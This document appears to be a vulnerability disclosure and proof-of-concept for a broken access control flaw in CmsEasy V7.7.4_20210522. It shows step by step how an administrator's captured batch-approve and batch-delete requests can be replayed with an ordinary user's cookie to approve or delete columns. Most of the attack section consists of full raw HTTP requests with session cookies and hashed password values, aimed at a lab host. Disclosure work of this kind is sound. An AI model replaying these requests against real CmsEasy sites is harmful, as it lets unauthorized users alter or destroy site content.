## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Access control error
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:Ordinary users can audit the column audit operations that only the administrator has the audit authority
```

## How to Exploit

**Step 1：Use ordinary users to log in cmseasy and add column content**



```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0
```



**Step 2：Use the administrator user to audit the login content submitted by the user, and use burpsuite to capture the package at the same time**

```
http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default#index_connent
```

```java
POST /index.php?case=table&act=batch&table=archive&needcheck=1&admin_dir=admin&site=default&dfile=&page=1&catid= HTTP/1.1
Host: 192.168.174.1
Content-Length: 149
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k79gumd09u825r1t3pruekkgsr; lockingfalsetest2=2; loginfalse=0; loginfalse74c6352c5a281ec5947783b8a186e225=2; login_password=972af30e54f47432662167c8a92badf8; login_username=admin
Connection: close

pxType=1&select%5B%5D=539&listorder%5B539%5D=0&copylangcatid=&langurlname=&copytolang=0&batch=check&attr1=0&catid=0&typeid=0&specialid=0&getto_page=1
```




Then drop the packet and refresh the page to confirm that the previous packet has not changed the audit column



After that, access the test1 user's personal page information in another traffic device, and use burpsuite to capture the user's cookie



After that, the cookie of test1 is used to replace the cookie information captured in burpsuite 2.1 for checking the column packet and replaying the packet

```javascript
POST /index.php?case=table&act=batch&table=archive&needcheck=1&admin_dir=admin&site=default&dfile=&page=1&catid= HTTP/1.1
Host: 192.168.174.1
Content-Length: 149
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621933849; loginfalse=0; login_username=test1; login_password=972af30e54f47432662167c8a92badf8
Connection: close

pxType=1&select%5B%5D=539&listorder%5B539%5D=0&copylangcatid=&langurlname=&copytolang=0&batch=check&attr1=0&catid=0&typeid=0&specialid=0&getto_page=1
```




After refreshing the user's personal audit column page information, it is found that the audit has passed







At the same time, users can delete the content of the audit column through ultra vires vulnerability

**a.First, delete any column with the administrator's permission, and use burpsuite to capture packages**



**b、Capture the communication packet, save a copy, and then dorp the current packet**

```javascript
POST /index.php?case=table&act=batch&table=archive&catid=16&admin_dir=admin&site=default&dfile=&page=1 HTTP/1.1
Host: 192.168.174.1
Content-Length: 270
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k79gumd09u825r1t3pruekkgsr; lockingfalsetest2=2; loginfalse=0; loginfalse74c6352c5a281ec5947783b8a186e225=2; login_password=972af30e54f47432662167c8a92badf8; login_username=admin
Connection: close

pxType=1&listorder%5B20%5D=0&listorder%5B19%5D=0&listorder%5B18%5D=0&listorder%5B17%5D=0&listorder%5B16%5D=0&listorder%5B15%5D=0&select%5B%5D=538&listorder%5B538%5D=0&copylangcatid=&langurlname=&copytolang=0&batch=delete&attr1=0&catid=0&typeid=0&specialid=0&getto_page=1
```



After that, the cookie of test1 is used to replay the previous communication packet, and it is found that the column can be deleted successfully



Refresh the column management module of the administrator interface again, and you can find that the column has been successfully deleted



## Reference

https://www.cmseasy.cn/
